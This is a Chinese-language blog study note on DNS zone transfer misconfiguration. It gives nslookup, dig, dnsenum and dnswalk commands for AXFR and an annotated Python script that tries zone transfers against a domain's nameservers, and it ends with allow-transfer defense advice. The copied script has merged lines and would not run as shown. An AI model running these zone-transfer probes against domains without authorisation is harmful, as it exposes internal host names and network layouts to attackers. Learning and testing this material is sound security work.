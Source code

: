 ```yaml
---
layout: post
title: "DNS域传送漏洞学习总结"
---
```


# 0x00 前言 #

---

本文是关于DNS域传送漏洞的学习与总结。

在[《安全参考》][1]第一期中有：区域传送操作指的是一台后备服务器使用来自主服务器的数据刷新自己的 zone 数据库。这为运行中的 DNS 服务提供了一定的冗余度,其目的是为了防止主域名服务器因意外故障变得不可用时影响到全局。一般来说,DNS区域传送操作只在网络里真的有后备域名 DNS 服务器时才有必要执行,但许多 DNS 服务器却被错误地配置成**只要有人发出请求**,就会向对方提供一个 zone 数据库的**拷贝**。如果所提供的信息只是与连到因特网上且具备有效主机名的系统相关,那么这种错误配置不一定是坏事,尽管这使得攻击者发现潜在目标要容易得多。真正的问题发生在一个单位没有使用公用/私用 DNS 机制来分割外部公用 DNS 信息和内部私用 DNS 信息的时候,此时内部主机名和 IP 地址都暴露给了攻击者。把内部 IP 地址信息提供给因特网上不受信任的用户,就像是把一个单位的内部网络完整蓝图或导航图奉送给了别人。对系统管理员来说,允许不受信任的因特网用户执行 DNS 区域传送(`zone transfer`)操作是后果最为严重的错误配置之一。

<!-- more -->

同时，在[WooYun WiKi][2]中也说道，利用DNS域传送漏洞可以有效地收集相关企业的子域名，收集信息也是渗透过程中很关键的一步。


# 0x02 攻击方法 #

---

## Windows下使用nslookup ##

1. 先设置查找类型为NS，查找出对应主机域的域名服务器。（或直接键入nslookup进入交互模式，再通过`set type=ns`进行设置）

    `C:\>nslookup -qa=ns test.com`

    会返回类似结果：

           Server:  bogon
           Address:  172.16.162.2           

           Non-authoritative answer:
           test.com        nameserver = ns66.worldnic.com
           test.com        nameserver = ns65.worldnic.com


2. 使用nslookup命令进入交互模式，更改默认服务器为刚才查询的域名服务器

    `> server=ns66.worldnic.com`

3. 列出服务器上所有的DNS记录

    `> ls -d test.com`

4. nslookup命令参考：

    * [《nslookup通往DNS的桥梁》-linux命令五分钟系列之三十三][3]
    * nslookup进入交互模式后查看帮助：`>help`

## Kali下使用dig, dnsenum, dnswalk ##

* 使用`dig`命令进行全量传输[AXFR][4]（从域名服务器从主域名服务器上请求zone文件）
        
        dig @dnsserver name querytype
        dig @192.168.5.6 test.com axfr

* 使用`dnsenum`获取测试对象全部的 DNS 解析记录信息

        ./dnsenum.pl –enum test.com

* 使用`dnswalk`获取测试对象全部的 DNS 解析记录信息，注意域名后有一个点

        ./dnswalk test.com.

* 相关命令参考：

    * [《安全参考》第一期][5]
    * [DNS域传送信息泄露][6]
    * [《dig挖出DNS的秘密》-linux命令五分钟系列之三十四][7]

# 0x03 攻击Python脚本分析  #

---

一看Github上有，就拿来分析一下吧，[kaizoku/zonepull][8]

{% highlight python %}
#!/usr/bin/env python
### Zonepuller
## Attempts to get a domain transfer from the nameservers for the given domain
## Requires dnspython http://www.dnspython.org/    import sys
import socket
import optparse
try:
    from dns import resolver, query, exception
except ImportError:
    print "This script requires dnspython"
    print "http://www.dnspython.org/"
    sys.exit(1)    

class Transferrer(object):
    def __init__(self, domain):
        self.domain = domain
        ## build list of nameservers
        nss = resolver.query(domain, 'NS')
        self.nameservers = [ str(ns) for ns in nss ]    
    def transfer(self):
        for ns in self.nameservers:
            print >> sys.stderr, "Querying %s" % (ns,)
            print >> sys.stderr, "-" * 50
            z = self.query(ns)
            print z
            print >> sys.stderr, "%s\n" % ("-" * 50,)    
    def query(self, ns):
        nsaddr = self.resolve_a(ns)
        try:
            z = self.pull_zone(nsaddr)
        except (exception.FormError, socket.error, EOFError):
            print >> sys.stderr, "AXFR failed\n"
            return None
        else:
            return z    
    def resolve_a(self, name):
        """Pulls down an A record for a name"""
        nsres = resolver.query(name, 'A')
        return str(nsres[0])    
    def pull_zone(self, nameserver):
        """Sends the domain transfer request"""
        q = query.xfr(nameserver, self.domain, relativize=False, timeout=2)
        zone = ""   ## janky, but this library returns
        for m in q: ## an empty generator on timeout
            zone += str(m)
        if not zone:
            raise EOFError
        return zone    
def main():
    parser = optparse.OptionParser(usage="%prog <domain>", version="%prog 0.1")
    options, args = parser.parse_args()
    if not args:
        parser.error("Must include at least one domain to transfer")        for dom in args:
        t = Transferrer(dom)
        t.transfer()
{% endhighlight %}

### 分析：###

* 程序先尝试导入dns，没有安装dnspython则退出
* 定义Transferrer()类来完成主要的域传送检测，先使用`resolver.query(domain, 'NS')`方法查询对应域名的NS记录，并将其作为域名服务器查询其A记录，最后使用`query.xfr(nameserver, self.domain, relativize=False, timeout=2)`尝试进行域传送
* main()函数主要对命令行传入的域名进行单线程串行检测是否存在DNS域传送

### Tips：###

* `print >> sys.stderr, "Message"`可将信息重定向输出到标准错误输出当中
*  `parser.error("Message")`可用于选项解析错误提示

# 0x04 防御方法 #

---

在相应的zone、options中添加allow-transfer限制，具体见[DNS 域传送漏洞][9]。这里还存在的**问题**是：未对DNS服务和DNS服务器深入了解，攻击也没有重现，还有待深入学习，而且DNS的问题也不止这些，[推荐看看][10]


[1]:http://www.hackcto.com/post/2013-01-15/40047740289
[2]:http://wiki.wooyun.org/information:domain
[3]:http://roclinux.cn/?p=2441
[4]:http://www.cnblogs.com/cobbliu/archive/2013/03/24/2979521.html
[5]:http://www.hackcto.com/post/2013-01-15/40047740289
[6]:http://drops.wooyun.org/papers/64
[7]:http://roclinux.cn/?p=2449
[8]:https://github.com/kaizoku/zonepull/blob/master/zonepull/zonepull.py
[9]:http://wiki.wooyun.org/doku.php?id=server:zone-transfer
[10]:http://www.cnblogs.com/cobbliu/archive/2013/03/24/2979521.html